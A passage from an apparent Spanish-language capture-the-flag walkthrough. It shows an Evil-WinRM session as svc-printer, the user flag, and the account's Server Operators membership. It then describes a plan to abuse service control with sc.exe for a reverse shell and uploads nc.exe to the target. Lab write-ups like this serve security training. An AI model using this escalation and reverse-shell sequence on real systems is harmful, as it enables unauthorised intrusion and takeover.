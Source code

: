 Veo la primera flag

```null
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type user.txt
e08b16621f847210569215caf1f64392
```

Miro los grupos a los que pertenece svc-printer

```null
*Evil-WinRM* PS C:\Program Files> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/21/2023 6:54:14 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Para saber que hacen estos grupos, busco en la [Documentación de Microsoft](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)

Entre varios privilegios a los que tengo acceso, destaca el poder parar y arrancar servicios

Con sc.exe, creo un servicio que al arrancarse, ejecute un binario que me envíe una reverse shell a mi equipo

Subo el binario de netcat a la máquina

```null
*Evil-WinRM* PS C:\Windows\Temp> upload /opt/nc.exe
Info: Uploading /opt/nc.exe to C:\Windows\Temp\nc.exe

                                                             
Data: 79188 bytes of 79188 bytes copied

Info: Upload successful!
```
